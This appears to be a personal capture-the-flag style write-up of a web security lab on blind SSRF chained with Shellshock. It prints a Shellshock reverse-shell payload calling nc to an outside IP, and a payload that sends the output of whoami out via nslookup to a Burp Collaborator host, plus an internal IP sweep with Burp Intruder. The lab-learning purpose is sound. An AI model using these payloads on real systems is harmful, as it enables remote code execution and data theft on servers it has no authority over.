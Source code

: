 ```yaml
---
tags: ["ssrf", "shellshock"]
---
```


imply identifying a blind [SSRF vulnerability](https://portswigger.net/web-security/ssrf) that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure.

## Challenge

--> In this challenge we have to use shellshock payload and get the result of `whoami` by running the exploit internally on `http://192.68.0.x:8080` range

So first i searched about shellshock payload and after reading some docs i found this payload which will get us the reverse shell !

```
() { :; }; /bin/bash -c ‘nc 192.168.234.166 1337 -e /bin/sh’
```

But we can't get reverse shell because this website will only respond to burp collaborator's requests so we have to use something like `nslookup` and after searching i found this payload:

```
() { :;}; nslookup ${whoami}.laz1klz1e1s4rz9hvknib7s5owuoid.burpcollaborator.net
```

Resources:

- https://github.com/opsxcq/exploit-CVE-2014-6271
- https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
- https://www.exploit-db.com/docs/48112

--> And also we will add this in `referrer` header

```
http://192.168.0.0:8080
```

--> Now we will run the intruder attack for this ip and keep doing `poll now` in collaboartor client

![](Attachments/Pastedimage20220222125752.png)

And after running attack i found the username in lookup request.

![](Attachments/Pastedimage20220222125828.png)

And we solved the lab!
